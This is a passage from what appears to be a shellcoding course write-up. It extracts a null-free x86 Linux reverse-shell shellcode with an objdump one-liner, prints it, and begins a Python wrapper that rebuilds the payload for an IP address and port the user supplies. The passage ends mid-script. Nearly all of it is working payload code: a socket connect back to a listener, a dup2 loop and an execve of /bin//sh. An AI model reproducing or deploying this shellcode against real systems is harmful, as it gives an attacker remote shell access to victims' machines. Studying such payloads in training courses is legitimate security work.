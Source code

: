 ## Shellcode

To get our shellcode, we can run this nifty command `objdump -d ./<PROGRAM>|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'`

Our shellcode is: 
```terminal_session
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\x80\x01\x01\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Looks to be null free!

## Python Wrapper

The next criteria we have to satisfy for the assignment, is to have the shell code created dynamically with user input for an IP address and port number. I have created a python wrapper to accomplish this. ***NOTE:*** I tried to make the wrapper capabale of supporting IP address inputs with zeroes in them by using the same method we used in our assembly code; however, adding `1.1.1.1` to the user provided IP address will break the wrapper if the user inputs an address with an octet value of `255`.

```python
#!/usr/bin/python

import socket
import sys
import binascii

shell1 = ""
shell1 += "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80"
shell1 += "\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xfb\\x31\\xc9\\x51\\xb9"
shell2 = ""
shell2 += "\\x81\\xe9\\x01\\x01\\x01\\x01\\x51\\x66\\x68"
shell3 = ""
shell3 += "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10"
shell3 += "\\xcd\\x80\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x03\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80"
shell3 += "\\x75\\xf6\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50"
shell3 += "\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 3:
	print 'Usage: wrapper.py <host IP> <port>'
	exit

ip = sys.argv[1]

ip = ip.split('.')

ip1 = int(ip[0]) + 1
ip2 = int(ip[1]) + 1
ip3 = int(ip[2]) + 1
ip4 = int(ip[3]) + 1

newip = str(ip1) + '.' + str(ip2) + '.' + str(ip3) + '.' + str(ip4)

newHex = binascii.hexlify(socket.inet_aton(newip))

newHex = "\\x" + str(newHex)[0:2] + "\\x" + str(newHex)[2:4] + "\\x" + str(newHex)[4:6] + "\\x" + str(newHex)[6:8]
```